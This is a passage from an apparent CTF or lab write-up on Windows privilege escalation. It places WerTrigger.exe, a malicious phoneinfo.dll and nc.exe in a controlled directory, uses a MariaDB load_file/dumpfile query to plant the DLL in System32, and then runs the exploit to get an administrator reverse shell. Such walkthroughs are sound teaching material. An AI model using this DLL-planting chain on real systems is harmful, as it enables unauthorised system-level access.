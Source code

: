 <figure><img src="../../../.gitbook/assets/image (209).png" alt=""><figcaption></figcaption></figure>

This opens up quite a few exploits to getting an administrator shell, such as the WerTrigger exploit.

{% embed url="https://github.com/sailay1996/WerTrigger" %}

&#x20;To exploit this, we would need to have these files within a directory we control:

```
C:\temp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C30-DCD7

 Directory of C:\temp

07/05/2023  09:25 AM    <DIR>          .
07/05/2023  09:25 AM    <DIR>          ..
07/05/2023  09:25 AM            45,272 nc.exe
07/05/2023  09:23 AM            12,288 phoneinfo.dll
07/05/2023  09:24 AM             9,252 Report.wer
07/05/2023  09:24 AM            15,360 WerTrigger.exe
               4 File(s)         82,172 bytes
               2 Dir(s)   7,268,442,112 bytes free
```

Afterwards, using the MySQL instance, we can place the `phoneinfo.dll` file into `C:\Windows\System32`.&#x20;

```
MariaDB [mysql]> select load_file('C:/temp/phoneinfo.dll') into dumpfile "C:\\Windows\\System32\\phoneinfo.dll"
    -> ;
Query OK, 1 row affected (0.176 sec)
```

Afterwards, just run `WerTrigger.exe` and our reverse shell command:

<figure><img src="../../../.gitbook/assets/image (180) (3).png" alt=""><figcaption></figcaption></figure>
